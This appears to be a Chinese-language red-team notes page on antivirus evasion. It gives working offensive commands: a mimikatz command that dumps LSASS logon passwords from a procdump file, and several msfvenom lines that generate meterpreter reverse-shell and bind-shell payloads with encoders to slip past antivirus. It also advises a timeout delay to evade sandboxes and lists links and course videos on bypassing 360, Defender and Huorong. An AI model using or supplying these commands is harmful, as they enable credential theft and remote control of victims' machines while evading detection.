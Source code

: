普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
- [Rust免杀 - Shellcode加载与混淆](https://mp.weixin.qq.com/s/5SP0FerVIsEk3P-eH3PmKw)
7-项目七 渗透有防护的内网域_18 msf 正向木马免杀过360 全家桶【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇01mimikatz免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇02PrintSpoofer免杀过360杀毒360安全卫士【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇03MSF用加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇04Python3Cobaltstrikeshellcode免杀过360卫士和360杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇05Golang加载器Cobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇06GolangCobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇07c#xor加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇08Cobaltstrike免杀过360和WindowsDefender【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇09msf加密壳免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
Cobalt Strike 第十五章 使用多种方法免杀 payload【瑞客论坛 www.ruike1.com】.docx
暗月实战项目八19metasploit免杀杀毒软件并且开启远程终端登录目标服务器【瑞客论坛 www.ruike1.com】.mp4
暗月实战项目十一05frp反向代理msf到公网msf免杀过火绒上线【瑞客论坛 www.ruike1.com】.mp4